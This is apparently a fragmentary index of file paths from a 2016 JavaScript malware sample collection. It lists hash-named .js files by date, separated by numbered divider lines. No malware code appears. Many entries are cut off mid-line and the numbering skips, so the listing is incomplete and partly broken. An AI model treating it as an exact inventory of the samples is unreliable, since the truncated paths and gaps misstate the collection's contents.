javascript-malware-collection-master\2016\20160510\20160510_62fda95ef8d4f3b8

javascript-malware-collection-master\2016\20160510\20160510_87f0d1f6fd3d85804f30a39f08b34d18.js
=========================================49284===========================================
javascript-malware-collection-master\2016\20160510\20160510_88e302b2d6c968de6acd0577c8ab3880.js
=========================================49285===========================================
javascript-malware-collection-master\2016\20160510\20160510_890125a6ae0f1b7554362b1ddb053ca8.js
=========================================49286===========================================
=========================================49287===========================================
javascript-malware-collection-master\2016\20160510\20160510_8a85179aa728f68c99cead14d4dfc038.js
=========================================49288===========================================
javascript-malware-collection-master\2016\20160510\20160510_8ac86b7539691686a610ed72f309d6ad.js
=========================================49289========================

javascript-malware-collection-master\2016\20160510\20160510_a34be26469745c5285087caea08a8192.js
=========================================49333===========================================
javascript-malware-collection-master\2016\20160510\20160510_a7329ed616082f2548d07dfba955498c.js
=========================================49334===========================================
javascript-malware-collection-master\2016\20160510\20160510_a8d7107ae1389335d759d7d98e725b39.js
=========================================49335===========================================
javascript-malware-collection-master\2016\20160510\20160510_a92d4bd3dbcaee534dfe1a35186b38c5.js
=========================================49336===========================================
=========================================49337===========================================
javascript-malware-collection-master\2016\20160510\20160510_a9ab16373ca156cd455ea6907b78c23f.js
=========================================49338========================

javascript-malware-collection-master\2016\20160510\20160510_c25e78c100c22a27f133bc4657e071bf.js
=========================================49384===========================================
javascript-malware-collection-master\2016\20160510\20160510_c2fd23fc878e7ebac48febff7312d9d8.js
=========================================49385===========================================
javascript-malware-collection-master\2016\20160510\20160510_c325613d23ce13fa5a8dcb980ddde92d.js
=========================================49386===========================================
javascript-malware-collection-master\2016\20160510\20160510_c3e90d73f9171c4cdfe0cb69eb0e83ce.js
=========================================49387===========================================
javascript-malware-collection-master\2016\20160510\20160510_c4a52fd0e5e37a91ae0fcf515fafa11b.js
=========================================49388===========================================
javascript-malware-collection-master\2016\20160510\20160510_c5c2ce02f6

javascript-malware-collection-master\2016\20160510\20160510_ded1d5b12d1b653b7c9632f80eea5267.js
=========================================49432===========================================
javascript-malware-collection-master\2016\20160510\20160510_e03602f6d366367984036c946e290862.js
=========================================49433===========================================
javascript-malware-collection-master\2016\20160510\20160510_e138c4def4a857a536cdffe96c226f7c.js
=========================================49434===========================================
javascript-malware-collection-master\2016\20160510\20160510_e167a5a5c33f865059070a5b61f44600.js
=========================================49435===========================================
javascript-malware-collection-master\2016\20160510\20160510_e30e10718fcc9de025f4224510cc833f.js
=========================================49436===========================================
javascript-malware-collection-master\2016\20160510\20160510_e3a32047e4

javascript-malware-collection-master\2016\20160511\20160511_002e0a10f1a31b3924c6aeba490e1ec8.js
=========================================49480===========================================
javascript-malware-collection-master\2016\20160511\20160511_00b031e892fa0b9e43bf24acc3d55839.js
=========================================49481===========================================
javascript-malware-collection-master\2016\20160511\20160511_00c418181dabc1b893cc15991e6aeba9.js
=========================================49482===========================================
javascript-malware-collection-master\2016\20160511\20160511_013e8beec212f1e390863cfa8ee5fcda.js
=========================================49483===========================================
javascript-malware-collection-master\2016\20160511\20160511_025f284a7c855fffee40c203c16c1ddd.js
=========================================49484===========================================
javascript-malware-collection-master\2016\20160511\20160511_02f6bf9342

javascript-malware-collection-master\2016\20160511\20160511_18690cd6f0bbe40808a4f79a04046f45.js
=========================================49530===========================================
javascript-malware-collection-master\2016\20160511\20160511_18c67e60930724093921d570ec2f8bc9.js
=========================================49531===========================================
=========================================49532===========================================
javascript-malware-collection-master\2016\20160511\20160511_1d4d8888ed030f6659e0a8fd45c76b91.js
=========================================49533===========================================
javascript-malware-collection-master\2016\20160511\20160511_1ecc27780c0db6f1b670d63eb03b1dfb.js
=========================================49534===========================================
javascript-malware-collection-master\2016\20160511\20160511_1ee7073badcc163a1628cd6516a2c2cb.js
=========================================49535========================

javascript-malware-collection-master\2016\20160511\20160511_3a40eb178887ae529f5617f595d8f135.js
=========================================49579===========================================
javascript-malware-collection-master\2016\20160511\20160511_3a50521b74f445c648d8303c11742411.js
=========================================49580===========================================
javascript-malware-collection-master\2016\20160511\20160511_3a512414ffe7f44ff0d28fa58b044b96.js
=========================================49581===========================================
javascript-malware-collection-master\2016\20160511\20160511_3a7fc5b25ae374eed7e97e2f3330a98b.js
=========================================49582===========================================
javascript-malware-collection-master\2016\20160511\20160511_3af466198ae8ce576538d4d31f6ed9c9.js
=========================================49583===========================================
=========================================49584========================

javascript-malware-collection-master\2016\20160511\20160511_4e4ca66976e86e4f56eb13dfbd08fc72.js
=========================================49629===========================================
javascript-malware-collection-master\2016\20160511\20160511_4f1498f730c0ee3b05893b3d37c70be2.js
=========================================49630===========================================
javascript-malware-collection-master\2016\20160511\20160511_4f193d8c61de1a136f26bacf80e14e18.js
=========================================49631===========================================
javascript-malware-collection-master\2016\20160511\20160511_4f1a27dd61835bcbada555ad5d9974a6.js
=========================================49632===========================================
javascript-malware-collection-master\2016\20160511\20160511_4f95bda67cd788b632d84b9ee6b97d6d.js
=========================================49633===========================================
=========================================49634========================

javascript-malware-collection-master\2016\20160511\20160511_64a2a0a4cbaa962bdd79d1ab3c220cab.js
=========================================49678===========================================
javascript-malware-collection-master\2016\20160511\20160511_64e76d46bae59899afe9b5a3f94e3914.js
=========================================49679===========================================
javascript-malware-collection-master\2016\20160511\20160511_65d1317a4931278cf1bd65d72ba6cd33.js
=========================================49680===========================================
javascript-malware-collection-master\2016\20160511\20160511_6612fddbef5dd2a362aec2928b99773b.js
=========================================49681===========================================
javascript-malware-collection-master\2016\20160511\20160511_667eb26bcbc0a7862faa90e0ad6b9f36.js
=========================================49682===========================================
javascript-malware-collection-master\2016\20160511\20160511_67b26d4b96

javascript-malware-collection-master\2016\20160511\20160511_7d659f48f47ac767d65ee079178b7f28.js
=========================================49726===========================================
javascript-malware-collection-master\2016\20160511\20160511_7d95cdf7e2465560c146fd837299b495.js
=========================================49727===========================================
javascript-malware-collection-master\2016\20160511\20160511_7e5cebe4606cb67205be0842d9f0cb6c.js
=========================================49728===========================================
javascript-malware-collection-master\2016\20160511\20160511_7f3613ac54836f3fe8b937814eceed72.js
=========================================49729===========================================
javascript-malware-collection-master\2016\20160511\20160511_7f51bd36e42150f33e8205b29af6e9b8.js
=========================================49730===========================================
javascript-malware-collection-master\2016\20160511\20160511_7f906cc7da

javascript-malware-collection-master\2016\20160511\20160511_96905d69a8689dbdb34915304d977a29.js
=========================================49777===========================================
javascript-malware-collection-master\2016\20160511\20160511_96d07ab5976149b9c066fe07b6dff7ac.js
=========================================49778===========================================
javascript-malware-collection-master\2016\20160511\20160511_974b248c2d68327419c364ef0fb090fc.js
=========================================49779===========================================
javascript-malware-collection-master\2016\20160511\20160511_97fe99c2cdb602ef6d16092ed7c0c0b7.js
=========================================49780===========================================
javascript-malware-collection-master\2016\20160511\20160511_98beb7b5894a21df84d00a7e62e8a7b9.js
=========================================49781===========================================
javascript-malware-collection-master\2016\20160511\20160511_99a81c59b9

javascript-malware-collection-master\2016\20160511\20160511_ab0a4e290e600ae2ce9cccfe3b08b84d.js
=========================================49823===========================================
javascript-malware-collection-master\2016\20160511\20160511_ab29151f3c113472c8f75d06fdc0e2bd.js
=========================================49824===========================================
javascript-malware-collection-master\2016\20160511\20160511_ab2a7ada98e95f3170191d06cac36c1c.js
=========================================49825===========================================
javascript-malware-collection-master\2016\20160511\20160511_ab571a66b941ea4b6e0cd591f96c016d.js
=========================================49826===========================================
javascript-malware-collection-master\2016\20160511\20160511_ab697bce7c5dc8049f119691981bcdf5.js
=========================================49827===========================================
=========================================49828========================

javascript-malware-collection-master\2016\20160511\20160511_c301b1c706308726828567d1503566d0.js
=========================================49870===========================================
javascript-malware-collection-master\2016\20160511\20160511_c36a9122e4f95b0fcc90dab0154b2183.js
=========================================49871===========================================
=========================================49872===========================================
javascript-malware-collection-master\2016\20160511\20160511_c3b22d0e4769bf2a694f6af956fe37bd.js
=========================================49873===========================================
=========================================49874===========================================
javascript-malware-collection-master\2016\20160511\20160511_c3ee03a4aca1b16ab4d3b97738d99d4e.js
=========================================49875===========================================
javascript-malware-collection-master\2016\20160511\20160511_c450251aa74c6784

javascript-malware-collection-master\2016\20160511\20160511_d78ea967808da5672b812a0a87fa3014.js
=========================================49918===========================================
javascript-malware-collection-master\2016\20160511\20160511_d79c6dff908a27a88bd831ea98c8d4f1.js
=========================================49919===========================================
javascript-malware-collection-master\2016\20160511\20160511_d843b2ad06ffcf97f9e0cbe0e0c75024.js
=========================================49920===========================================
javascript-malware-collection-master\2016\20160511\20160511_d8a1a36773867f4120d82b3416f06436.js
=========================================49921===========================================
javascript-malware-collection-master\2016\20160511\20160511_d8acf4c0c74d86815984ff2a9a42ca97.js
=========================================49922===========================================
javascript-malware-collection-master\2016\20160511\20160511_d9033870ce

javascript-malware-collection-master\2016\20160511\20160511_f0c8c13691c2be2150612fc2004d7289.js
=========================================49968===========================================
javascript-malware-collection-master\2016\20160511\20160511_f1a4d501916f8d225ef7e8dc9d4ecce6.js
=========================================49969===========================================
javascript-malware-collection-master\2016\20160511\20160511_f1fa9f994f15d505ac24113f5e150a5c.js
=========================================49970===========================================
javascript-malware-collection-master\2016\20160511\20160511_f202b881685002a97953f8309b4d767f.js
=========================================49971===========================================
javascript-malware-collection-master\2016\20160511\20160511_f453bf898d33f635528fd84b242923fd.js
=========================================49972===========================================
javascript-malware-collection-master\2016\20160511\20160511_f4863bc589

javascript-malware-collection-master\2016\20160512\20160512_115026e846f36ea1d1311e4584f5846c.js
=========================================50015===========================================
javascript-malware-collection-master\2016\20160512\20160512_15bdd0f1b4abb291ef87c9ebf570a106.js
=========================================50016===========================================
javascript-malware-collection-master\2016\20160512\20160512_15c0c3280d107b63a764cbf6272d2782.js
=========================================50017===========================================
javascript-malware-collection-master\2016\20160512\20160512_174ec50c5408f646ca377b7bb6da9fcc.js
=========================================50018===========================================
javascript-malware-collection-master\2016\20160512\20160512_1771055e49b3b1801002c2b69d74537f.js
=========================================50019===========================================
javascript-malware-collection-master\2016\20160512\20160512_17d3fbd083

javascript-malware-collection-master\2016\20160512\20160512_41bedfaa304f19129aeb2bed297df1f3.js
=========================================50062===========================================
javascript-malware-collection-master\2016\20160512\20160512_43c31aae983b775f25bf7e5b257814d3.js
=========================================50063===========================================
javascript-malware-collection-master\2016\20160512\20160512_43f3087bda56c2c9e75c190e160442af.js
=========================================50064===========================================
javascript-malware-collection-master\2016\20160512\20160512_45ec8768d3ae7ce07f487395551a236d.js
=========================================50065===========================================
javascript-malware-collection-master\2016\20160512\20160512_46eac97a5200473d524b5ca888213c07.js
=========================================50066===========================================
javascript-malware-collection-master\2016\20160512\20160512_48e5230bed

javascript-malware-collection-master\2016\20160512\20160512_7c6cf5738e3540b092da5da8853a6bfb.js
=========================================50110===========================================
javascript-malware-collection-master\2016\20160512\20160512_7c8153e6ea9b2312cfecf1c64c772027.js
=========================================50111===========================================
javascript-malware-collection-master\2016\20160512\20160512_7d889d498c060ad798b54ed72c0ad54b.js
=========================================50112===========================================
javascript-malware-collection-master\2016\20160512\20160512_7e6f3d1c0da87b998130d97e9d5755c4.js
=========================================50113===========================================
javascript-malware-collection-master\2016\20160512\20160512_7fa64191b4d0b1c371939a26c38e97c9.js
=========================================50114===========================================
javascript-malware-collection-master\2016\20160512\20160512_7fbc2fa35a

javascript-malware-collection-master\2016\20160512\20160512_afd4ee80518b65bf005d601128847e22.js
=========================================50156===========================================
=========================================50157===========================================
javascript-malware-collection-master\2016\20160512\20160512_b2c2e539b86d753f2e0e35a93f6bd14f.js
=========================================50158===========================================
javascript-malware-collection-master\2016\20160512\20160512_b3b884c4d8a6aaacab7253c8bb718141.js
=========================================50159===========================================
javascript-malware-collection-master\2016\20160512\20160512_b4f7fd2d53d4f45bc07924bff70bbd27.js
=========================================50160===========================================
javascript-malware-collection-master\2016\20160512\20160512_b533eab03b58736ac5cac89f554e28a4.js
=========================================50161========================

javascript-malware-collection-master\2016\20160512\20160512_ecba3265d35f11e2a4e4349270d19b52.js
=========================================50203===========================================
javascript-malware-collection-master\2016\20160512\20160512_ee72315b512c5f8a44a81321b268891e.js
=========================================50204===========================================
javascript-malware-collection-master\2016\20160512\20160512_eeadc6a3167882486c158a1fbfd33072.js
=========================================50205===========================================
javascript-malware-collection-master\2016\20160512\20160512_eee6b39ef30ec58a75c21c85c48a4073.js
=========================================50206===========================================
javascript-malware-collection-master\2016\20160512\20160512_efc3d003b096606ce135e881bdfa44b0.js
=========================================50207===========================================
javascript-malware-collection-master\2016\20160512\20160512_eff448b5d2

=========================================50269===========================================
=========================================50270===========================================
=========================================50271===========================================
=========================================50272===========================================
=========================================50273===========================================
=========================================50274===========================================
=========================================50275===========================================
=========================================50276===========================================
=========================================50277===========================================
=========================================50278===========================================
=========================================50279===========================================
==========

javascript-malware-collection-master\2016\20160516\20160516_2214dd9a2c3184adb9640de4c822705c.js
=========================================50334===========================================
javascript-malware-collection-master\2016\20160516\20160516_229ce506d05260144feb1e45506043ed.js
=========================================50335===========================================
javascript-malware-collection-master\2016\20160516\20160516_23a58eedb73a97e262f3f739ea238ad5.js
=========================================50336===========================================
javascript-malware-collection-master\2016\20160516\20160516_23e78d844e2a71d5932ca5b3628a802c.js
=========================================50337===========================================
javascript-malware-collection-master\2016\20160516\20160516_23ee11bcd1c5b850e5ec3711d3adc931.js
=========================================50338===========================================
=========================================50339========================

javascript-malware-collection-master\2016\20160516\20160516_52c00fc533da3a85b84930262dda5c27.js
=========================================50386===========================================
javascript-malware-collection-master\2016\20160516\20160516_5317596ff66422981e967d0c358e7b5a.js
=========================================50387===========================================
javascript-malware-collection-master\2016\20160516\20160516_5419dd90aab60099fb0713afb9ee6651.js
=========================================50388===========================================
=========================================50389===========================================
javascript-malware-collection-master\2016\20160516\20160516_555a4daece308d316d1b72d8146d5ebf.js
=========================================50390===========================================
javascript-malware-collection-master\2016\20160516\20160516_557e7316ed4b2c4f118da607e43aad12.js
=========================================50391========================

javascript-malware-collection-master\2016\20160516\20160516_7eca96d4c32eae4cd355d16266ca4920.js
=========================================50438===========================================
javascript-malware-collection-master\2016\20160516\20160516_7ee7995037ea482250a6bdaf04d774c2.js
=========================================50439===========================================
javascript-malware-collection-master\2016\20160516\20160516_80ebb38d8378c7f07db1989328cebc2f.js
=========================================50440===========================================
javascript-malware-collection-master\2016\20160516\20160516_8286403a04e72549e53d2cad0d6c0cb5.js
=========================================50441===========================================
=========================================50442===========================================
javascript-malware-collection-master\2016\20160516\20160516_8291d0c7929e9f667a31134147b39d31.js
=========================================50443========================

javascript-malware-collection-master\2016\20160516\20160516_a4bbe2eae9b8ce4ebffa6b233ff86412.js
=========================================50488===========================================
javascript-malware-collection-master\2016\20160516\20160516_a64825c14cc08b736cbb5e64e42fcb08.js
=========================================50489===========================================
javascript-malware-collection-master\2016\20160516\20160516_a69d5f13efd2a6a4d235e13cebf04661.js
=========================================50490===========================================
javascript-malware-collection-master\2016\20160516\20160516_a6fc1325aa8812de1a7f46ac07b484f4.js
=========================================50491===========================================
javascript-malware-collection-master\2016\20160516\20160516_a7912addafad3abcdfde87421ef3892f.js
=========================================50492===========================================
javascript-malware-collection-master\2016\20160516\20160516_a8cf08fe8c

javascript-malware-collection-master\2016\20160516\20160516_d6ffd9eed9fc7bc86ab93dd977265f62.js
=========================================50538===========================================
javascript-malware-collection-master\2016\20160516\20160516_d7effa15afdcbdb2988a98667c702c6f.js
=========================================50539===========================================
=========================================50540===========================================
=========================================50541===========================================
javascript-malware-collection-master\2016\20160516\20160516_dc164426ea1c5cac650135390822c48e.js
=========================================50542===========================================
javascript-malware-collection-master\2016\20160516\20160516_dc76a366f7d9c62a135ea9277ae0ac23.js
=========================================50543===========================================
javascript-malware-collection-master\2016\20160516\20160516_dfc8cbd36a53ba6a

javascript-malware-collection-master\2016\20160517\20160517_04c297bc8ab1ab45f14b248f73add2d1.js
=========================================50594===========================================
javascript-malware-collection-master\2016\20160517\20160517_0587aa576734d49c02121d3d0d0aa175.js
=========================================50595===========================================
javascript-malware-collection-master\2016\20160517\20160517_059ab3a67c2964a806e2f722d45c41e7.js
=========================================50596===========================================
javascript-malware-collection-master\2016\20160517\20160517_05cc59bf7f0f1fff08e365d7eb6fa080.js
=========================================50597===========================================
javascript-malware-collection-master\2016\20160517\20160517_06009326df2d033dcae3df2f5d6187c8.js
=========================================50598===========================================
javascript-malware-collection-master\2016\20160517\20160517_063b82492a

=========================================50647===========================================
javascript-malware-collection-master\2016\20160517\20160517_1947fe924fa0f64b144ca0ca491d7a49.js
=========================================50648===========================================
javascript-malware-collection-master\2016\20160517\20160517_194f27c3a89238327ecbff4eb5ecdeb0.js
=========================================50649===========================================
javascript-malware-collection-master\2016\20160517\20160517_19a5668badd1fd09e10fdc493c9a3fd8.js
=========================================50650===========================================
javascript-malware-collection-master\2016\20160517\20160517_1a106698b9bd1bf84f71fc4bae7d2ca3.js
=========================================50651===========================================
javascript-malware-collection-master\2016\20160517\20160517_1a5fdf72b66bac04dedb89be72dde259.js
=========================================50652========================

=========================================50710===========================================
javascript-malware-collection-master\2016\20160517\20160517_277ededfa1fe55fc937750c1cd22bc3d.js
=========================================50711===========================================
javascript-malware-collection-master\2016\20160517\20160517_278e794663edd5bcdee04423bedacdb9.js
=========================================50712===========================================
javascript-malware-collection-master\2016\20160517\20160517_27a7d941231e3b60757eb9d09d822741.js
=========================================50713===========================================
javascript-malware-collection-master\2016\20160517\20160517_27af0578adbe73d44ded8b48be50281b.js
=========================================50714===========================================
javascript-malware-collection-master\2016\20160517\20160517_27af33dfbafba4daaccceacdc317df6d.js
=========================================50715========================

=========================================50778===========================================
javascript-malware-collection-master\2016\20160517\20160517_4120acc8e6812960aa07d48d883e7f9a.js
=========================================50779===========================================
javascript-malware-collection-master\2016\20160517\20160517_4161db15d5a868340dbd0540016b1d61.js
=========================================50780===========================================
javascript-malware-collection-master\2016\20160517\20160517_41b0a606e9384630292654f5e1dc3d81.js
=========================================50781===========================================
=========================================50782===========================================
javascript-malware-collection-master\2016\20160517\20160517_42aa8f1083e89fc5814221a1450adc13.js
=========================================50783===========================================
javascript-malware-collection-master\2016\20160517\20160517_435f9d4b60c97d09

=========================================50828===========================================
javascript-malware-collection-master\2016\20160517\20160517_53f845cedc73557370fb7a49f72ecfa1.js
=========================================50829===========================================
javascript-malware-collection-master\2016\20160517\20160517_5435d2e6809d3dd5799ebd3ce60d5977.js
=========================================50830===========================================
=========================================50831===========================================
javascript-malware-collection-master\2016\20160517\20160517_54805e10b3733715c51a94776af549ec.js
=========================================50832===========================================
javascript-malware-collection-master\2016\20160517\20160517_5484195b449ad8f31248445f91b73a9a.js
=========================================50833===========================================
javascript-malware-collection-master\2016\20160517\20160517_54d25070869f26ae

javascript-malware-collection-master\2016\20160517\20160517_663c7860c7965bcdb912703180425ce5.js
=========================================50887===========================================
javascript-malware-collection-master\2016\20160517\20160517_66c0ea5022b9752ed36cecfafb29383d.js
=========================================50888===========================================
javascript-malware-collection-master\2016\20160517\20160517_66c2af3ef007068fec81c9d817dec6c5.js
=========================================50889===========================================
=========================================50890===========================================
javascript-malware-collection-master\2016\20160517\20160517_66e765ad6ad217719cbbd67c682691ac.js
=========================================50891===========================================
javascript-malware-collection-master\2016\20160517\20160517_6729598c961ab62b00e7b0b0d9e85b33.js
=========================================50892========================

javascript-malware-collection-master\2016\20160517\20160517_75908c35bddf1bd4e4ac8006ef168cd8.js
=========================================50935===========================================
javascript-malware-collection-master\2016\20160517\20160517_75a4e88643ac5c271ca22411220b37ee.js
=========================================50936===========================================
javascript-malware-collection-master\2016\20160517\20160517_76a6cfabfc8175be0fe8fc724b38045a.js
=========================================50937===========================================
javascript-malware-collection-master\2016\20160517\20160517_76b4f79767e7f516b5f4ff5c9ace29dd.js
=========================================50938===========================================
javascript-malware-collection-master\2016\20160517\20160517_76c0ca1d11d81f0077182e6e5c2dbd85.js
=========================================50939===========================================
javascript-malware-collection-master\2016\20160517\20160517_77171d7598

=========================================50984===========================================
javascript-malware-collection-master\2016\20160517\20160517_8374fd6f4aad4e92a9f608cd2a015514.js
=========================================50985===========================================
javascript-malware-collection-master\2016\20160517\20160517_85602b7ee1045d9daad174887e6407cc.js
=========================================50986===========================================
=========================================50987===========================================
javascript-malware-collection-master\2016\20160517\20160517_86a95f883931cc5870af45c4e8efa03d.js
=========================================50988===========================================
javascript-malware-collection-master\2016\20160517\20160517_87a783c07f759f30e42e5002701d67c6.js
=========================================50989===========================================
=========================================50990==============================

=========================================51042===========================================
javascript-malware-collection-master\2016\20160517\20160517_9b344b966309210b416d5f86d0887328.js
=========================================51043===========================================
javascript-malware-collection-master\2016\20160517\20160517_9b38cb5a6d671c6b78263ec6f5995ac2.js
=========================================51044===========================================
javascript-malware-collection-master\2016\20160517\20160517_9b76a500abd8659772ecdde6023e3d37.js
=========================================51045===========================================
javascript-malware-collection-master\2016\20160517\20160517_9b772c6b2bbe7a7b774e2c78fc4e0f8e.js
=========================================51046===========================================
=========================================51047===========================================
javascript-malware-collection-master\2016\20160517\20160517_9bdac1717740295c

=========================================51092===========================================
javascript-malware-collection-master\2016\20160517\20160517_ace6e31f87acc598e303251db5b199f6.js
=========================================51093===========================================
javascript-malware-collection-master\2016\20160517\20160517_ad6ae40a6502f0d26055fc45af6bbfbb.js
=========================================51094===========================================
javascript-malware-collection-master\2016\20160517\20160517_ae2228264bc04f4d8d542a495e90a7a1.js
=========================================51095===========================================
javascript-malware-collection-master\2016\20160517\20160517_aebbfa379532bb125dcee3f2131d285d.js
=========================================51096===========================================
javascript-malware-collection-master\2016\20160517\20160517_aec8f6a16e4e6b1cf4a71aa34e737fb3.js
=========================================51097========================

javascript-malware-collection-master\2016\20160517\20160517_c079f902bcac5d57d5918e1bb5dd0505.js
=========================================51153===========================================
javascript-malware-collection-master\2016\20160517\20160517_c0a8743bab8299108c7b4cc3131ff10c.js
=========================================51154===========================================
javascript-malware-collection-master\2016\20160517\20160517_c0b312df9701727e7cfbb06dc2e26e38.js
=========================================51155===========================================
=========================================51156===========================================
javascript-malware-collection-master\2016\20160517\20160517_c1021629cb92f92e46f3e215cadabab0.js
=========================================51157===========================================
javascript-malware-collection-master\2016\20160517\20160517_c2029ec6fcc33c6c897b5e79f77220a8.js
=========================================51158========================

=========================================51216===========================================
=========================================51217===========================================
javascript-malware-collection-master\2016\20160517\20160517_d3bb804fc2291fce616ae3ca3d821c4f.js
=========================================51218===========================================
javascript-malware-collection-master\2016\20160517\20160517_d3c184b03b97aad3511fb9606172281a.js
=========================================51219===========================================
javascript-malware-collection-master\2016\20160517\20160517_d3fbdd79f7907b0872ea8f83396db77c.js
=========================================51220===========================================
javascript-malware-collection-master\2016\20160517\20160517_d3fdc8d54d2df94bac5a8818daf0b825.js
=========================================51221===========================================
javascript-malware-collection-master\2016\20160517\20160517_d4169926bc09a955

javascript-malware-collection-master\2016\20160517\20160517_e4f26baa79c748e83db0c2436c92c315.js
=========================================51278===========================================
=========================================51279===========================================
javascript-malware-collection-master\2016\20160517\20160517_e68f62720cb79da45096bb40570ff4eb.js
=========================================51280===========================================
javascript-malware-collection-master\2016\20160517\20160517_e69e3ad9a67033eeb7d6466ffd220650.js
=========================================51281===========================================
javascript-malware-collection-master\2016\20160517\20160517_e6a7f3255c66d6007e05f9c622dccaca.js
=========================================51282===========================================
javascript-malware-collection-master\2016\20160517\20160517_e6b76c8cd4a4f4e1d127df5da90a9ecb.js
=========================================51283========================

javascript-malware-collection-master\2016\20160517\20160517_f70acaad5d5c82efacad65570126923b.js
=========================================51341===========================================
javascript-malware-collection-master\2016\20160517\20160517_f724a523401313ccc078a9efb217404a.js
=========================================51342===========================================
javascript-malware-collection-master\2016\20160517\20160517_f7563c69f97231393be1b3a0c9164b83.js
=========================================51343===========================================
javascript-malware-collection-master\2016\20160517\20160517_f77012b492fdd8281ce4abfcb79ebaf1.js
=========================================51344===========================================
javascript-malware-collection-master\2016\20160517\20160517_f7a8f97059ad0199ba656f8f9b19a12b.js
=========================================51345===========================================
javascript-malware-collection-master\2016\20160517\20160517_f7af7ff5e1

=========================================51393===========================================
=========================================51394===========================================
=========================================51395===========================================
javascript-malware-collection-master\2016\20160518\20160518_0e26432006dc9fd2be3dc80423de9741.js
=========================================51396===========================================
javascript-malware-collection-master\2016\20160518\20160518_0eaa122eccda05f43a2b1e862bf4ca6e.js
=========================================51397===========================================
javascript-malware-collection-master\2016\20160518\20160518_0fb7c5bf9d4b274b55fde7030e6e2521.js
=========================================51398===========================================
javascript-malware-collection-master\2016\20160518\20160518_0ff25d97eb4dc92cdba7d9f34c0b6a88.js
=========================================51399==============================

=========================================51452===========================================
javascript-malware-collection-master\2016\20160518\20160518_273dc7666993f0d93351fdeb9ad32588.js
=========================================51453===========================================
javascript-malware-collection-master\2016\20160518\20160518_276c7c44547f83f114c62b404e9cabdc.js
=========================================51454===========================================
javascript-malware-collection-master\2016\20160518\20160518_276f867c0d67f8f92301eca2e28c1204.js
=========================================51455===========================================
javascript-malware-collection-master\2016\20160518\20160518_28654c86969fead0353351029bf198f5.js
=========================================51456===========================================
=========================================51457===========================================
javascript-malware-collection-master\2016\20160518\20160518_29ba9bc7529da067

javascript-malware-collection-master\2016\20160518\20160518_452b23bf9440dde77f1311dd17fe3c55.js
=========================================51508===========================================
=========================================51509===========================================
javascript-malware-collection-master\2016\20160518\20160518_467fddc6b7e46f744aa13320a995e913.js
=========================================51510===========================================
javascript-malware-collection-master\2016\20160518\20160518_46b47bfd885785917bcc306e129a5fab.js
=========================================51511===========================================
=========================================51512===========================================
javascript-malware-collection-master\2016\20160518\20160518_47e3a718f26c936f6dfff27aab709d3f.js
=========================================51513===========================================
javascript-malware-collection-master\2016\20160518\20160518_4846624af4a88503

javascript-malware-collection-master\2016\20160518\20160518_601a41b1356105896dc5bf23033191c9.js
=========================================51564===========================================
javascript-malware-collection-master\2016\20160518\20160518_609456dee35f622941b04c3adc0df382.js
=========================================51565===========================================
=========================================51566===========================================
javascript-malware-collection-master\2016\20160518\20160518_61200134589485ea3669a7f07577a842.js
=========================================51567===========================================
javascript-malware-collection-master\2016\20160518\20160518_6133850ca71e9171c6a4c0d1991fcd97.js
=========================================51568===========================================
javascript-malware-collection-master\2016\20160518\20160518_629149f1d72a30635659fb22430028a1.js
=========================================51569========================

=========================================51614===========================================
javascript-malware-collection-master\2016\20160518\20160518_75a29bd2cfbf1a0f52e5a51dd49a36c3.js
=========================================51615===========================================
=========================================51616===========================================
javascript-malware-collection-master\2016\20160518\20160518_7730218a280e78e4e884627bf11c9c44.js
=========================================51617===========================================
=========================================51618===========================================
javascript-malware-collection-master\2016\20160518\20160518_78a3af933132eb51b4004e762f5463e6.js
=========================================51619===========================================
javascript-malware-collection-master\2016\20160518\20160518_796344922cf4963e86c015fb52ab933d.js
=========================================51620==============================

javascript-malware-collection-master\2016\20160518\20160518_90c12d0d6101c3eb0c649c135a064172.js
=========================================51678===========================================
javascript-malware-collection-master\2016\20160518\20160518_90d81356119820ca0fa1d623c4077b8b.js
=========================================51679===========================================
javascript-malware-collection-master\2016\20160518\20160518_90d8661248fa4cece0661bf443799eac.js
=========================================51680===========================================
javascript-malware-collection-master\2016\20160518\20160518_91693a52460c213b0317b3f90b958d0c.js
=========================================51681===========================================
javascript-malware-collection-master\2016\20160518\20160518_92d5ed4010f993c200377c6a9ff8f8c5.js
=========================================51682===========================================
javascript-malware-collection-master\2016\20160518\20160518_92e779245b

=========================================51726===========================================
javascript-malware-collection-master\2016\20160518\20160518_a9a1e57ab902c8b0251177bcd697a198.js
=========================================51727===========================================
javascript-malware-collection-master\2016\20160518\20160518_a9f5fe9a016d84d9437d94d1931dd343.js
=========================================51728===========================================
=========================================51729===========================================
javascript-malware-collection-master\2016\20160518\20160518_ab6738062a89b2d80b5d2de19aee00c5.js
=========================================51730===========================================
javascript-malware-collection-master\2016\20160518\20160518_ad3d91086fc892de11e61b4d0b64cfc3.js
=========================================51731===========================================
=========================================51732==============================

javascript-malware-collection-master\2016\20160518\20160518_c7734d1c76b3a62e11f7230354f1e8e0.js
=========================================51780===========================================
javascript-malware-collection-master\2016\20160518\20160518_c7acf3790108609a79c57d2f9baef359.js
=========================================51781===========================================
javascript-malware-collection-master\2016\20160518\20160518_c7e2b56afb0323a402e7100cefd7c920.js
=========================================51782===========================================
=========================================51783===========================================
javascript-malware-collection-master\2016\20160518\20160518_c80c856420ccd18ebec39bedb73e84bc.js
=========================================51784===========================================
javascript-malware-collection-master\2016\20160518\20160518_c8aac8ee825831893a36d5178b4f243e.js
=========================================51785========================

javascript-malware-collection-master\2016\20160518\20160518_de7b2696484bfac92b001b4ea10f2889.js
=========================================51842===========================================
=========================================51843===========================================
javascript-malware-collection-master\2016\20160518\20160518_e16a907785842e83cf6cdc7fafd21f1e.js
=========================================51844===========================================
javascript-malware-collection-master\2016\20160518\20160518_e27d28f25a5085e97416df819f61a5e5.js
=========================================51845===========================================
javascript-malware-collection-master\2016\20160518\20160518_e28364941c2f1316bafb6036295791ac.js
=========================================51846===========================================
javascript-malware-collection-master\2016\20160518\20160518_e2d8a8f00eb5a69e67e395d938216fa3.js
=========================================51847========================

=========================================51895===========================================
javascript-malware-collection-master\2016\20160518\20160518_fda636d5dc773ce25f0c0ad56078b04b.js
=========================================51896===========================================
javascript-malware-collection-master\2016\20160518\20160518_fe960f7e46dd5d06f3e6e56c6ceb8e46.js
=========================================51897===========================================
javascript-malware-collection-master\2016\20160518\20160518_fea2fa8003ca28caf30e1ce4e41ae11d.js
=========================================51898===========================================
javascript-malware-collection-master\2016\20160518\20160518_ff6ff9f8dc2aade12db72ce5e0cb4d62.js
=========================================51899===========================================
javascript-malware-collection-master\2016\20160518\20160518_ff9f8814939dc2052163301ff1764b50.js
=========================================51900========================

=========================================51954===========================================
